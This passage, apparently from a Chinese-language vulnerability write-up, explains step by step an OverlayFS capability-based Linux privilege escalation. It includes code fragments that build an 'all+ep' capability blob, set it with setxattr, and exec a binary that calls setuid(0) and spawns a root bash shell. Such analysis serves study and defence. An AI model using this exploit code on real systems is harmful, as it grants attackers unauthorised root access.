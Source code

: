 其中`copyfile`函数就是将文件复制到第二个参数中，并赋予第三个参数的权限，实现见后面的完整代码

这里是将`/proc/self/exe`复制到`BIN_MERGE`也就是`./eki_ovlcap/merge/magic`下

接着构造一个`capabilities`

```
// all+ep
    char cap[] = "\x01\x00\x00\x02\xff\xff\xff\xff\x00\x00\x00\x00\xff\xff\xff\xff\x00\x00\x00\x00";
```

`cap`中

```
\x01\x00\x00\x02 #对应megic_etc
\xff\xff\xff\xff #对应permiited
\x00\x00\x00\x00 #对应inheritable
\xff\xff\xff\xff
\x00\x00\x00\x00
```

效果如下

[![](https://p4.ssl.qhimg.com/t016dcd307e74a2c329.png)](https://p4.ssl.qhimg.com/t016dcd307e74a2c329.png)

权限逃逸关键在于`setxattr`

```
if (setxattr(BIN_MERGE, "security.capability", cap, sizeof(cap) - 1, 0) == -1)
        err(1, "setxattr %s", BIN_MERGE);
```

根据前文漏洞原理介绍，执行完此函数后，属于`ext3`文件系统的`./eki_ovlcap/upper/magic`文件的`capabilitiy`为`all+ep`,这个程序就是我们之前`copyfile`过去的程序。

```
#define BIN_UPPER   DIR_UPPER "/magic"

    pid_t child = fork();
    if (child == 0) `{`
        _exit(exploit());
    `}` else `{`
        waitpid(child, NULL, 0); //父进程等待子进程执行exploit完成
    `}`

    execl(BIN_UPPER, BIN_UPPER, "shell", NULL);//执行具有权限的BIN_UPPER 也即
    err(1, "execl %s", BIN_UPPER);
```

此时具有权限的`./eki_ovlcap/upper/magic`进入如下判断语句块，通过`setuid(0);setgid(0);`提升权限并执行`/bin/bash`获取shell

```
if (strstr(argv[0], "magic") || (argc &gt; 1 &amp;&amp; !strcmp(argv[1], "shell"))) `{`
        setuid(0);
        setgid(0);
        execl("/bin/bash", "/bin/bash", "--norc", "--noprofile", "-i", NULL);
        err(1, "execl /bin/bash");
    `}`
```

